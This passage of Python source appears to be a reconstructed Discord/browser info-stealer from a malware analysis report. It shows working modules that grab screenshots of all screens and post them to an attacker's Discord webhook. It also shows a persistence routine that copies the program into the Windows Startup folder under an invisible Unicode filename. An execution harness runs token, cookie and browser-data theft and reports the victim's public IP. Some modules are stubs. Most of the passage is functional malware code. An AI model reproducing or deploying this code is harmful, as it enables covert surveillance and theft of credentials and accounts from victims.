    # ... (see full analysis report for complete reconstruction) ...
    pass  # Implemented in original with ~90 lines


# ─────────────────────────────────────────────────────────
# MODULE 9: Screenshot Capture (Lines 1917-1953)
# ─────────────────────────────────────────────────────────
def take_screenshot():
    import io
    from PIL import ImageGrab
    from discord import SyncWebhook, Embed, File
    
    try:
        screenshot = ImageGrab.grab(all_screens=True)
        buffer = io.BytesIO()
        screenshot.save(buffer, format='PNG')
        buffer.seek(0)
        
        embed = Embed(title=f"Screenshot {VICTIM_TAG}:", color=EMBED_COLOR)
        embed.set_image(url="attachment://screenshot.png")
        embed.set_footer(text=FOOTER_TEXT, icon_url=EMBED_ICON_URL)
        
        webhook = SyncWebhook.from_url(WEBHOOK_URL)
        webhook.send(embed=embed, file=File(buffer, filename="screenshot.png"),
                     username=EMBED_NAME, avatar_url=EMBED_ICON_URL)
    except Exception as e:
        send_webhook_embed(WEBHOOK_URL, title=f'Screenshot {VICTIM_TAG}:',
                          description=f"Unable to take a screenshot: ```{e}```")


# ─────────────────────────────────────────────────────────
# MODULE 10: Persistence — Startup Folder Copy
# Uses invisible Unicode char (ㅤ U+3164) as filename!
# ─────────────────────────────────────────────────────────
def install_persistence():
    import shutil

    try:
        current_path = os.path.abspath(sys.argv[0])
        ext = "exe" if current_path.endswith(".exe") else "py"
        hidden_filename = f"ㅤ.{ext}"  # U+3164 Hangul filler — visually invisible!
        
        startup_folder = os.path.join(
            os.getenv('APPDATA'),
            'Microsoft', 'Windows', 'Start Menu', 'Programs', 'Startup'
        )
        
        dest_path = os.path.join(startup_folder, hidden_filename)
        shutil.copy(current_path, dest_path)
        os.chmod(dest_path, 0o777)
    except:
        pass


# ═══════════════════════════════════════════════════════════
# EXECUTION HARNESS (Lines 1983-2018)
# ═══════════════════════════════════════════════════════════

# Step 1: Announce to attacker
try: requests.post(WEBHOOK_URL, json={
    'content': '****╔═════════════════Victim Affected═════════════════╗****',
    'username': EMBED_NAME, 'avatar_url': EMBED_ICON_URL
})
except: pass

# Step 2: Launch stub threads (empty/future modules)
try: threading.Thread(target=stub_func_01).start()
except: pass
try: threading.Thread(target=stub_func_03).start()
except: pass
try: threading.Thread(target=stub_func_05).start()
except: pass
try: threading.Thread(target=stub_func_06).start()
except: pass

# Step 3: Core steal modules (sequential, not threaded)
try: steal_system_info()
except: pass
try: steal_discord_tokens()
except: pass
try: inject_discord()
except: pass
try: steal_browser_data()
except: pass
try: steal_roblox_cookies()
except: pass

# Step 4: More stubs
try: stub_func_10()
except: pass
try: stub_func_08()
except: pass

# Step 5: Screenshot
try: take_screenshot()
except: pass

# Step 6: Close-out banner with victim's public IP
try: requests.post(WEBHOOK_URL, json={
    'content': f'****╚══════════════════{PUBLIC_IP}══════════════════╝****',
    'username': EMBED_NAME, 'avatar_url': EMBED_ICON_URL
})
except: pass

# Step 7: Final stub threads
try: threading.Thread(target=stub_func_19).start()
except: pass
try: threading.Thread(target=stub_func_20).start()
except: pass
try: threading.Thread(target=stub_func_15).start()
except: pass
try: threading.Thread(target=stub_func_18).start()
except: pass
```

